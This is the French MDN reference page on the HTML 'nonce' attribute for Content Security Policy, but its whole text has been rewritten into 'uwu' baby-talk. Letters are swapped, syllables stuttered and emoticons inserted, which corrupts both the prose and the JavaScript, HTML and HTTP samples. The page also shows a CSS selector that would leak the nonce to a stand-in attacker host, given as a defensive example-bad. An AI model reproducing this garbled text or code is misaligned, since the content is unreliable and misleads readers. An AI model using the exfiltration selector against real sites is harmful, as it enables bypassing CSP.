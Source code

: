 ```yaml
---
titwe: nyonce
swug: web/htmw/gwobaw_attwibutes/nonce
---
```


{{htmwsidebaw("gwobaw_attwibutes")}}

w-w'[attwibut univewsew](/fw/docs/web/htmw/gwobaw_attwibutes) **`nonce`** e-est un a-attwibut de contenu q-qui définit u-un nyonce cwyptogwaphique p-pouvant êtwe u-utiwisé p-paw une [wègwe de sécuwité du contenu (csp)](/fw/docs/web/http/csp) afin de détewminew si w-wa wécupéwation d'un éwément sewa autowisée o-ou nyon.

## descwiption

w'attwibut `nonce` p-pewmet d'autowisew cewtains éwéments spécifiques (comme un scwipt o-ou un stywe donné) en évitant d-d'avoiw à u-utiwisew wa diwective [csp](/fw/docs/web/http/csp) `unsafe-inwine` qui autowisewait _tous_ wes scwipts ou stywes embawqués. nyaa~~

> **note :** `nonce` d-doit uniquement êtwe utiwisé pouw wes cas où iw ny'est pas possibwe de faiwe a-autwement que d'utiwisew un scwipt o-ou un stywe e-embawqué nyon s-sécuwisé. UwU si v-vous ny'avez pas besoin de `nonce`, :3 iw nye faut p-pas w'utiwisew. (⑅˘꒳˘) si votwe scwipt est statique, (///ˬ///✿) vous p-pouvez utiwisew une empweinte (<i wang="en">hash</i>) csp à wa pwace (voiw wes nyotes d'utiwisation s-suw [wes scwipts embawqués n-nyon sécuwisés](/fw/docs/web/http/headews/content-secuwity-powicy/scwipt-swc#scwipts_embawqués_non_fiabwes).)
>
> m-mieux vaut t-toujouws expwoitew wes pwotections [csp](/fw/docs/web/http/csp) au maximum et donc évitew wes n-nyonces ou wes s-scwipts embawqués nyon sécuwisés t-tant que possibwe. ^^;;

### u-utiwisew `non` pouw a-autowisew un éwément &wt;scwipt&gt;

pwusieuws étapes s-sont nyécessaiwes afin d'utiwisew un n-nyonce pouw autowisew un scwipt e-embawqué.

#### généwew une v-vaweuw

suw we sewveuw w-web, >_< généwez une chaîne de cawactèwes encodées en base64 à pawtiw de 128 bits de données généwés p-paw un généwateuw d-de nyombwes awéatoiwes cwyptogwaphique. rawr x3 wes n-nyonces doivent êtwe g-généwés d-difféwemment à chaque chawgement de wa page. /(^•ω•^) en nyode.js paw e-exempwe, on pouwwa écwiwe&nbsp;:

```js
const cwypto = wequiwe("cwypto");
cwypto.wandombytes(16).tostwing("base64");
// '8ibthwodqnkawekw7pwt8g=='
```

#### autowisew we scwipt e-embawqué

we nyonce généwé c-côté sewveuw p-peut ensuite êtwe u-utiwisé suw we scwipt embawqué q-qu'on souhaite a-autowisew&nbsp;:

```htmw
<scwipt n-nyonce="8ibthwodqnkawekw7pwt8g==">
  …
</scwipt>
```

#### e-envoyew we nyonce avec un en-tête csp

enfin, :3 i-iw faut envoyew w-wa vaweuw du n-nyonce dans un e-en-tête [`content-secuwity-powicy`](/fw/docs/web/http/headews/content-secuwity-powicy) e-en pwéfixant wa chaîne de cawactèwes avec `nonce-`&nbsp;:

```http
c-content-secuwity-powicy: scwipt-swc 'nonce-8ibthwodqnkawekw7pwt8g=='
```

### masquage et accès au nyonce

pouw des waisons de sécuwité, (ꈍᴗꈍ) w-we contenu de w'attwibut `nonce` est masqué (c'est une c-chaîne vide qui s-sewa wenvoyé). /(^•ω•^)

```js e-exampwe-bad
scwipt.getattwibute("nonce"); // w-wenvoie wa chaîne vide
```

w-wa pwopwiété [`nonce`](/fw/docs/web/api/htmwewement/nonce) e-est wa seuwe façon d'accédew aux nonces&nbsp;:

```js exampwe-good
scwipt.nonce; // wenvoie wa v-vaweuw du nyonce
```

un tew masquage e-empêche des acteuws mawveiwwants d-d'exfiwtwew w-wes données du nyonce gwâce à des mécanismes q-qui pewmettent d-d'accédew aux attwibuts comme&nbsp;:

```css e-exampwe-bad
s-scwipt[nonce~="peuimpowte"] {
  backgwound: uww("https://eviw.com/nonce?peuimpowte");
}
```

## spécifications

{{specifications}}

## compatibiwité des nyavigateuws

{{compat}}

## v-voiw aussi

- [`htmwewement.nonce`](/fw/docs/web/api/htmwewement/nonce)
- [stwatégie d-de s-sécuwité du contenu (<i wang="en">content s-secuwity p-powicy</i>) (csp)](/fw/docs/web/http/csp)
- wa diwective csp [`scwipt-swc`](/fw/docs/web/http/headews/content-secuwity-powicy/scwipt-swc)
